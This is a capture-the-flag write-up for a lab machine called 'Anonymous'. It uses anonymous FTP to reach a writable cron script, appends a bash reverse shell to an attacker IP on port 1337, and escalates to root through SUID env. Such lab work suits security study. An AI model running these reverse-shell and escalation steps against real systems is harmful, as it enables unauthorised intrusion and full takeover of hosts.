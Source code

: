# Anonymous
**Difficulty:** Medium  

---

## Questions and Answers
- Enumerate the machine. How many ports are open? → `***`  
- What service is running on port 21? → `***`  
- What service is running on ports 139 and 445? → `***`  
- There's a share on the user's computer. What's it called? → `***`  
- user.txt → `********************************`  
- root.txt → `********************************`  

---

## Full Walkthrough

### Nmap Enumeration
```bash
nmap -sC -sV 10.201.24.55 -oN nmap_anonymous

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 19:51 WIB
Nmap scan report for 10.201.24.55
Host is up (0.37s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
21/tcp  open  ftp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|_    220 NamelessOne's FTP Server!
22/tcp  open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn?
445/tcp open  microsoft-ds?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```
## SMB Enumeration
```bash
smbclient -L //10.201.24.55 -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

## FTP Enumeration
```bash
ftp 10.201.24.55

Connected to 10.201.24.55.
220 NamelessOne's FTP Server!
Name (10.201.24.55:santstyle): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> ls -la
229 Entering Extended Passive Mode (|||8763|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||31675|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         2279 Sep 09 13:20 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> mget *
mget clean.sh [anpqy?]? y
229 Entering Extended Passive Mode (|||29056|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |*********************************************************************|   314        2.72 MiB/s    00:00 ETA
226 Transfer complete.
mget removed_files.log [anpqy?]? y
229 Entering Extended Passive Mode (|||57126|)
150 Opening BINARY mode data connection for removed_files.log (2365 bytes).
100% |*********************************************************************|  2365       25.62 MiB/s    00:00 ETA
226 Transfer complete.
mget to_do.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||19274|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |*********************************************************************|    68        0.55 KiB/s    00:00 ETA
226 Transfer complete.
```
`to_do.txt`
```
I really need to disable the anonymous login...it's really not safe
```
`clean.sh` (original):
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
## Weaponization
Modify `clean.sh` to include reverse shell:
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
    echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
/bin/bash -i >& /dev/tcp/10.9.1.148/1337 0>&1
```
Upload back:
```bash
ftp> put clean.sh
```
## Exploitation
Start listener:
```bash
nc -lvnp 1337

listening on [any] 1337 ...
connect to [10.9.1.148] from (UNKNOWN) [10.201.24.55] 44418
sh: 0: can't access tty; job control turned off
$ ls
pics
user.txt
$ whoami
namelessone
$ cat user.txt
********************************
```
`Yeyy we get the user.txt`

## Next

Upgrade shell:
```bash
$ python -c "import pty; pty.spawn('/bin/bash')"
namelessone@anonymous:~$ ^Z
zsh: suspended  nc -lvnp 1337
stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               export TERM=xterm
namelessone@anonymous:~$ 
```
List SUID binaries:
```bash
namelessone@anonymous:~$ find / -type f -perm /4000 2>/dev/null
...
/usr/bin/env
...
```
Privilege escalation via GTFOBins:
```bash
namelessone@anonymous:~$ env /bin/sh -p
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
********************************
```
Conclusion

+ Anonymous FTP access led to discovery of writable script.

+ Modified script executed reverse shell, gaining user access as namelessone.

+ Privilege escalation via SUID env → full root.

+ Both flags obtained.